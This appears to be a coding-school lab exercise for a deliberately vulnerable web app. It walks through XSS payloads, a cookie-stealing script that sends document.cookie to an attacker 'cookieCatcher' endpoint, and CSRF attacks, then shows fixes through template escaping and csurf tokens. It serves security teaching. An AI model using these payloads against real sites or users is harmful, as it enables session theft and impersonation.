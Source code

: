 # Pair Programming Exercise: Steal This App: Exercise 2

## Getting started

1. Create a user account on [http://steal-this-app-horizons.herokuapp.com/exercise2](http://steal-this-app-horizons.herokuapp.com/exercise2)
1. Login!

## Part 1: Insecure Messenger Cross-site Scripting (XSS)

Insecure messenger lets you send messages to other users on Steal This App.
Unfortunately, it is vulnerable to Cross-Site Scripting (XSS) attacks.

### a. Running JavaScript as someone else

The message body is not sanitized (i.e. escaped) before being rendered to the
page. First we will exploit this vulnerability by making people send messages
without their knowledge.

1. Create a new user, we'll call this `User A`.
1. Send this message to `User A` from `User A`, refresh the page and check your
console. You should see a message!

    ```html
    <script>
      console.log("I'm in your browser, running your JavaScripts");
    </script>
    ```

1. Make `User A` send a message to another user, `User B`, which we will create
in a while, via XSS. <br> Switch the `console.log()` statement with a `$.ajax()`
call to make the same kind of `POST` request that the Send Message form on this
page is making.

    ```html
    <script>
      $.ajax('/url of this page', {
        method: 'post',
        data: {
          // Form data goes here
        }
      })
    </script>
    ```

1. [Logout](https://steal-this-app-horizons.herokuapp.com/exercise2/logout) and
create a new user, `User B`.
1. Send a specially crafted message from `User B` to `User A` and make sure that
you can use the same attack across users.

### b. Drive by: running JavaScript as someone else

There's another thing that's vulnerable on this page: the `success` query
parameter. This parameter is also not sanitized before being rendered to the page, so we can run JavaScript with it too!

1. [Success messages under normal operation](http://steal-this-app-horizons.herokuapp.com/exercise2/messenger?success=YOUR%20MESSAGE%20HERE)
1. [Whoops this link runs JavaScript](http://steal-this-app-horizons.herokuapp.com/exercise2/messenger?success=%3Cscript%3Econsole.log%28'Another%20day%2C%20another%20XSS'%29%3C%2Fscript%3E)
1. Create a link that makes someone send a message to you when they open
it in their browser.
1. See if you can get your friends to click on it.

#### Putting JavaScript in URLs

You can generate JavaScript to put in URLs using the `encodeURIComponent()`
like this:

```javascript
encodeURIComponent('<script>YOUR SCRIPT HERE</script>')
```

### c. Stealing cookies

A website is only as secure as its cookies. If you can steal someone's cookie
you can impersonate them. This page is vulnerable because it prints out messages
received on the page without escaping (i.e. sanitizing) HTML.

We can run JavaScript on other users' pages by sending them messages with this
page containing the &lt;script&gt; tag. Cookies are accessible (by default) in
JavaScript via `document.cookie`. So if we craft the right script tag, we can
steal their cookie!

```html
<script>
  console.log('I can see your cookies!', document.cookie);
</script>
```

1. Clone the [Attacker companion to Steal This App](https://github.com/horizons-school-of-technology/attacker-steal-this-app)
1. Start this app on your localhost and visit [http://localhost:3000/cookieCatcher](http://localhost:3000/cookieCatcher), you should see a message in your console

    ```
    !!!Cookie catcher!!!
    ```

1. We're going to use this endpoint to transmit the stolen cookie back to
  us. We can then use the cookie to impersonate the user.
1. Create a specially crafted message or a URL that creates an `img`
  tag and appends it to the body. We're going to store `document.cookie`
  inside the `src` attribute of this image.

    ```javascript
    var img = $('<img>');
    // Read and submit this cookie via the img tag
    img.attr('src', "http://localhost:3000/cookieCatcher?cookie=") // you need to edit this line to pass the cookies to your server.
    $('body').append(img); // this will append the HTML element into the DOM and therefore fire a GET request to the URL above.
    ```

1. Note the value of the cookie in the command line. Use either
  the DevTools console or a Chrome Plugin to create the same cookie
  on Steal This App in an incognito window thereby impersonating the
  original owner of the cookie.

## Part 2: Fix XSS vulnerabilities

Clone the `steal-this-app` GitHub repo. The vulnerabilities are in
`steal-this-app/views/messenger.hbs`

Replace triple-brace Handlebars references with secure double-brace
Handlebars references.

After fixing attempt the XSS attacks you did earlier to verify they
no longer work!

This is secure:

```
{{secure}}
```

This is insecure:

```
{{{insecure}}}
```

## Part 3: Insecure Messenger Cross-site Request Forgery (CSRF)

Insecure Messenger is vulnerable to another type of attack called
Cross-site request forgery aka CSRF.

This type of attack does not involve running JavaScript in the target
site but instead relies on making requests on behalf of the user while
they are on a 3rd party site.

### a. Logout your enemies

In this exercise we're going to log someone out of Insecure Messenger
without their knowledge. We're going to do this using a hidden `img` that
will make a `GET` request to a destination of the attacker's choosing.

1. Log in to [Insecure Messenger](http://steal-this-app-horizons.herokuapp.com/exercise2)
1. Clone the [Attacker companion to Steal This App](https://github.com/horizons-school-of-technology/attacker-steal-this-app)
1. Start the Attacker app and connect to [http://localhost:3000/](http://localhost:3000/) make sure it's running.
1. Create a new route `GET /csrfLogout` that renders a single `img` tag
  that points to the logout page:
  ![](img/csrf1.png)

1. Visit your new endpoint.
1. Go back to [Insecure Messenger](http://steal-this-app-horizons.herokuapp.com/exercise2) Are you still logged in?

### (Bonus) b. Send POST request with CSRF

OK, we made someone log out without telling them. What's the big deal?
Well let's now take this to the next level by making a `POST`
request without their knowledge as well.

This time we're going to make them send message, just like we did earlier
but without relying on XSS.

We need a new page on the Attacker side that contains a hidden form.

We are going make this form talk to
`http://steal-this-app-horizons.herokuapp.com/exercise2/messenger`
by using the `action` attribute and use a `POST` request with the
`method` attribute. It should look like this:

![](img/csrf2.png)

Once you get your form working, you can pull up the inbox of the
user that you sent a message to and verify that your attack succeeded.

![](img/csrf3.png)

### (Bonus) Fix CSRF vulnerabilities

To fix CSRF we need to add a second layer of protection to endpoints
that perform actions i.e. `POST` endpoints.

We will use the NPM package `csurf` to accomplish this.

1. Add `csurf` to your `app.js`

    ```javascript
    var csrf = require('csurf')();
    app.use(csrf);
    ```

1. Now all your `GET` requests will contain a new property `req.csrfToken()`
  which you can render as a hidden form field.

    **Route**

    ```javascript
    app.use('/route', function(req, res) {
      res.render('template', {
        _csrf: req.csrfToken()
      });
    });
    ```

    **Template**

    ```html
    <form method="post">
      <input type="hidden" name="_csrf" value="{{csrfToken}}">
    </form>
    ```

1. `POST` requests without a valid token in the `_csrf` field will now be
  automatically rejected.

## Done!

Wow! You completed everything! That was amazing! 🔥🎉✅
